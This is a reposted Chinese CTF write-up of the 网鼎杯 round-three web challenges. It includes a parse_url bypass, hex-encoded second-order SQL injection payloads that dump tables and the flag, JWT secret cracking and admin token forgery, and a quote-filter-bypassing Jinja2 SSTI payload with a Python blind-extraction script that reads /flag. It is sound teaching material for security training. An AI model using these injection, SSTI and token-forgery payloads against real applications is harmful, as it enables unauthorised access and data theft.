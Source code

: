 ```yaml
---
layout:     post
title:      深入了解Json Web Token
date:       2018-12-16
author:     Wh0ale
header-img: img/wallhaven-714676.jpg
catalog: true
tags:
    - JWT
---
```




通过赛题深入了解JWT

比赛环境没关，可以找其他人借账号复现本次比赛题目，以下是网鼎杯第三场Web题解。

## Web

### comein

题目：由于运维人员失误，内网认证页面部署至了外网，不过还好，开发加了域名验证。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f747460-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f747460-aac0-1.png)

查看源码，发现如下代码：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f9837e2-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f9837e2-aac0-1.png)

很明显又是考察 **parse_url** 函数绕过，只不过开头多了对点号的匹配，绕过即可。使用 **payload**：**.@c7f.zhuque.com/..//**

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fa83c50-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fa83c50-aac0-1.png)

可以自己本地调试一下。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fbe7394-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fbe7394-aac0-1.png)

### gold

题目：还在上小学的小明同学开发了一款游戏，你能通关吗？

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fcab622-aac0-1.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fcab622-aac0-1.gif)

**Burpsuite** 抓包会发现浏览器一直发送POST数据，应该是通过Ajax来发起请求的：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7fe7503e-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7fe7503e-aac0-1.png)

根据题目提示： **收集1000金币即可过关** 。尝试直接将参数 **getGod** 的值修改为1000，发现会触发检测机制。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7ffb2f50-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7ffb2f50-aac0-1.png)

于是使用 **Burpsuite** 抓包，用 **Intruder** 模块从0跑到1001，在 **getGod=1001** 的数据包中获得flag：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-800dba30-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-800dba30-aac0-1.png)

PS：用多线程跑会触发游戏的反作弊机制，用单线程按顺序跑就能出flag。

### phone

题目：find the flag.

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-801a9444-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-801a9444-aac0-1.png)

看到这道题目，马上就想到 [2017广东省强网杯(第三题)](https://mochazz.github.io/2017/09/11/QWBCTF/) 。测试了一下，果然在用户注册处的电话处存在二次注入，测试结果如下：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-802de544-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-802de544-aac0-1.png)

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-803ad272-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-803ad272-aac0-1.png)

可以发现这里查询结果为： **有1人和你电话相似哦~** ，而实际上这是我注册的第一个用户，数据库中不可能有用户的电话和我一样，所以应该是执行了我们刚刚构造的 **SQL语句** ，因为后面的布尔逻辑值为真。所以我们分别构造获取表名、列名、字段的 **payload** 如下：

获取表名：

```
aaa' union select group_concat(table_name) from information_schema.tables where table_schema=database() order by 1 desc#
username=test4&password=test4&phone=0x6161612720756e696f6e2073656c6563742067726f75705f636f6e636174287461626c655f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d613d64617461626173652829206f726465722062792031206465736323&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80470538-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80470538-aac0-1.png)

获取列名：

```
aaa' union select group_concat(column_name) from information_schema.columns where table_name="flag" order by 1 desc#
username=test6&password=test6&phone=0x6161612720756e696f6e2073656c6563742067726f75705f636f6e63617428636f6c756d6e5f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f6e616d653d22666c616722206f726465722062792031206465736323&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80525c6c-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80525c6c-aac0-1.png)

获取字段：

```
aaa' union select f14g from flag order by 1 desc#
username=test7&password=test7&phone=0x6161612720756e696f6e2073656c65637420663134672066726f6d20666c6167206f726465722062792031206465736323&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-805e9004-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-805e9004-aac0-1.png)

这里可能有人会不明白为什么要加上 **order by 1 desc** ，大家可以试试下面这个 **payload** ：

```
aaa' union select group_concat(table_name) from information_schema.tables where table_schema=database()#
username=test8&password=test8&phone=0x6161612720756e696f6e2073656c6563742067726f75705f636f6e636174287461626c655f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d613d6461746162617365282923&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-806b2e68-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-806b2e68-aac0-1.png)

实际上后台的 **SQL语句** 类似下图 **第一个SQL语句** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80b028a6-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80b028a6-aac0-1.png)

### i_am_admin

题目：你能登录进去吗？

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80c261e2-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80c261e2-aac0-1.png)

抓取登录数据包，发现 **JWT** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80d6d6fe-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80d6d6fe-aac0-1.png)

登录进去可以发现用于加密的 **secret key** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80e54720-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80e54720-aac0-1.png)

使用这个 **secret key** 到 <https://jwt.io/> 生成 **admin** 对应的 **token** 值：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80fa7a8c-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80fa7a8c-aac0-1.png)

使用该 **token** 值访问网站即可获得flag：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-810e6da8-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-810e6da8-aac0-1.png)

### mmmmy

题目：find the flag.

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-811c4b6c-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-811c4b6c-aac0-1.png)

抓包发现又是python的web程序，使用了JWT：(随手用test/test登录即可看到)

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-8137b456-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-8137b456-aac0-1.png)

使用 [**c-jwt-cracker**](https://github.com/brendan-rius/c-jwt-cracker) 爆破 **secret key** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81564a60-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81564a60-aac0-1.png)

发现只有 **admin** 才能用留言板功能，所以 **伪造admin的token** 登录：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-816bdcfe-aac0-1.png)

**virink** 师傅提醒说留言板处存在 **SSTI** ，于是测试了下，果然存在，只不过过滤了 **{{}}** 的写法，那我们可以换成流程控制结构的写法 **{%if 表达式%}内容1{%else%}内容2{%endif%}** ，测试如下：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-817c1b0a-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-817c1b0a-aac0-1.png)

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-818af3e6-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-818af3e6-aac0-1.png)

那么后面的数据就要盲注出来了，使用的 **payload** 类似如下:

```
text={%  if open('/flag','r').read()[0]=='f' %}1{%  else  %}0{%  endif  %}
```

这里实际上过滤了单、双引号，我们可以使用以下payload进行绕过：

```
text={% if request.values.e[18] == ()[request.values.a][request.values.b][request.values.c]()[40](request.values.d).read()[0]%}good{%endif%}&a=__class__&b=__base__&c=__subclasses__&d=/flag&e=}-{0123456789abcdefghijklmnopqrstuvwxyz
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81995b8e-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81995b8e-aac0-1.png)

getflag程序如下：

```python
import requests,sys
url = "http://4532bc69bc734acd8416204f0aa04f446e9d38024c5644e8.game.ichunqiu.com/bbs"
cookie = {
    "token" : "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.IXEkNe82X4vypUsNeRFbhbXU4KE4winxIhrPiWpOP30"
}
chars = "}-{0123456789abcdefghijklmnopqrstuvwxyz"
flag = ''
for i in range(0,50):
    for j in range(0,len(chars)):
        data = {
            "text" : "{%% if request.values.e[%d] == ()[request.values.a][request.values.b][request.values.c]()[40](request.values.d).read()[%d]%%}getflag{%%endif%%}" % (j,i),
            "a" : "__class__",
            "b" : "__base__",
            "c" : "__subclasses__",
            "d" : "/flag",
            "e" : chars
        }
        r = requests.post(url=url,data=data,cookies=cookie)
        if 'getflag' in r.text:
            flag += chars[j]
            sys.stdout.write("[+] "+ flag + '\r')
            sys.stdout.flush()
            if chars[j] == '}':
                print(flag)
                exit()
            else:
                break
print(len(r.text))
```



[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204722-81aa70fe-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204722-81aa70fe-aac0-1.png)



转载自先知：https://xz.aliyun.com/t/2648

[深入了解Json Web Token之概念篇](https://www.freebuf.com/articles/web/180874.html)

[深入了解Json Web Token之实战篇](https://www.freebuf.com/articles/web/181261.html)

https://jwt.io/